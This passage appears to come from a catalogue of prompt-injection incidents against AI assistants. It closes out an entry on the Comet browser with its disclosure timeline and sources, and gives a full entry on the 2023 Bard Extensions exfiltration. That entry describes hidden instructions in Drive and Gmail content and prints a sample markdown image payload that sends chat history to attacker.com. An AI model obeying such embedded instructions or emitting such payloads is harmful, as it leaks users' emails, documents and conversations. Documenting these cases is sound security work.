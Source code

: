 **Related Threat:** "Scamlexity" attack (August 2025, Guardio Labs) demonstrated fraudulent purchases via auto-filled credit card numbers using similar techniques.

**Financial Cost:** Not disclosed (no evidence of widespread exploitation)

**Disclosure Timeline:**
- **July 25, 2025:** Vulnerability discovered and reported to Perplexity (LayerX Security)
- **July 27, 2025:** Perplexity acknowledged and implemented initial fix
- **Status:** Fix incomplete—vulnerability STILL exploitable on retest
- **October 1, 2025:** Screenshot-based injection variant discovered (Brave Security Team)
- **October 21, 2025:** Public disclosure
- **Perplexity's Response:** Classified as "no security impact," marked as "Not Applicable"
- **Current Status:** **UNRESOLVED—users remain exposed**

**Researchers:**
- LayerX Security (Michelle Levy, Head of Security Research; Or Eshed, CEO)
- Guardio Labs (Scamlexity attack)
- Brave Security Team (screenshot-based injection)

**Source:**
- https://thehackernews.com/2025/10/cometjacking-one-click-can-turn.html
- https://venturebeat.com/ai/when-your-ai-browser-becomes-your-enemy-the-comet-security-disaster
- https://brave.com/blog/comet-prompt-injection/

---

### 3. Google Bard/Gemini Extensions Data Exfiltration (2023)
**System:** Google Bard (now Gemini) with Extensions
**Date:** September 19, 2023 (reported), October 2023 (patched)
**CVE Number:** Not assigned

**Attack Vector:**
- Indirect prompt injection via Google Drive documents, Gmail emails
- Bard Extensions granted access to Gmail, Google Drive, Google Docs (PII exposure)
- Malicious markdown image injection instructions embedded in untrusted documents
- When Bard processes document, it executes hidden prompts and renders image tags
- Browser auto-loads image URLs containing exfiltrated data without user interaction

**Technical Exploitation:**
- **Markdown Image Rendering:** `![exfil](https://attacker.com/leak?data=base64-encoded-chat-history)`
- **Extension Privilege Abuse:** Leveraged Bard's access to Gmail/Drive to extract sensitive documents
- **Zero-Click Exfiltration:** Browser automatically fetches image URLs, sending data to attacker server
- **Forced Google Doc Sharing:** Chat history exfiltrated via forced document sharing mechanism

**Data Leaked:**
- Chat history
- Emails from Gmail
- Google Drive documents
- Personally identifiable information (PII)

**User Base:** All Bard users with Extensions enabled
